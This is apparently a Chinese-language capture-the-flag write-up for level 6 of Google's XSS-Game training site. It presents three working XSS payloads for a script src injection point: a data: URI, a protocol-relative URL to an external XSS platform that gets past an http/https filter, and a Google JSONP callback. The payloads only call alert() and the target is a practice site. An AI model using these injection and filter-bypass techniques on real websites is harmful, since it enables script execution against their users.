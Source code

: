 ## [[XSS-Game](https://xss-game.appspot.com/)] [[Level-6 ： Follow the 🐇](https://xss-game.appspot.com/level6)] [[解题报告](http://exp-blog.com/2019/02/15/pid-3322/)]

------

## 1. 解题方法一（题目 "BUG"）

明显注入点在 URL。

查看页面源码发现， 无论在 URL 输入什么都会实时回显到 script 标签的 src 属性里面：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/01.png)

即注入点是这样的： `<script src="注入点" ></script>`

要在 script 标签的 src 属性执行 js ，可以构造这样的 payload： `data:text/javascript,alert('exp')`

直接 pass。。最后一关简单到离谱。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/02.png)


## 2. 解题方法二（XSS 平台）

其实这么简单就突破了，可能是这题的 BUG。

因为我一开始没看题目的 Mission Objective 变成了这样：

**Find a way to make the application request an external file which will cause it to execute an alert().**

即作者期望我们利用 script 标签的 src 属性去调用其他站点的 恶意 js 脚本，再由该脚本回调当前网页 的 alert，估计作者也没想到可以被钻了空子。

------------

若按作者的思路解题，我们可以用 xss 平台做，例如： [http://xss.tf](http://xss.tf)

注册 xss 平台后，任意创建一个项目，然后配置项目源码，勾选最后的“自定义代码”，输入一个 JS 函数 `alert()` ，最后查看项目代码，会给出访问这个项目的 URL，如这里为：[http://xss.tf/IUa](http://xss.tf/IUa)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/03.png)

打开这个 xss 项目的 URL ： [http://xss.tf/IUa](http://xss.tf/IUa)

可以看见页面只打印了一个 JS 函数 `alert()` ，到这里我们构造这个 xss 平台的目的就完成了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/04.png)

------------

### 2.1. 回调函数

回到挑战页面，前面已经知道注入点是这样的： `<script src="注入点" ></script>`

要从这里通过 xxs 平台回调 `alert()` 函数，只需要在 URL 末尾加上 `callback=alert`，即：

`<script src="http://xss.tf/gAk?callback=alert" ></script>`

回调原理大概是这样的：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/05.png)


------------

### 2.2. 验证绕过

但是直接注入 `http://xss.tf/gAk?callback=alert` 是无法成功的，

原因是题目对注入点做了正则校验，不允许输入以 http 或 https 开头的内容：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/06.png)

但是绕过的方式也很简单，直接删掉 `http:` 或 `https:` 即可，最终 payload 变成这样：

`//xss.tf/gAk?callback=alert`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/07.png)


在 web 网页中，以双斜杠 `//` 开头的 URL 写法有其特殊用途：

- 它会判断当前的页面协议是 http 还是 https 来决定请求 url 的协议
- 主要用于处理 \[网站使用的协议\] 和 \[网页中请求的外网资源\] 不一致的问题，达到无缝切换
- 这种写法在 CSS 很常见，如：`.omgomg { background: url(//exp-blog.com/imgs/exp.gif); }`


------------

## 3. 解题方法三（谷歌 jsapi）

查看 hits ，题目给出的一个提示是：`google.com/jsapi?callback=foo`

打开页面发现，google 会实时根据 `callback=foo` 的值构造一个 `foo` 函数

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/08.png)

因此可以构造这样的 payload ：`//www.google.com/jsapi?callback=alert`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/09.png)

这样就可以省去自己搭建 xss 平台的麻烦了，一样可以 pass ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/10.png)

------------

## 4. 闯关成功

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/11.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/12.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
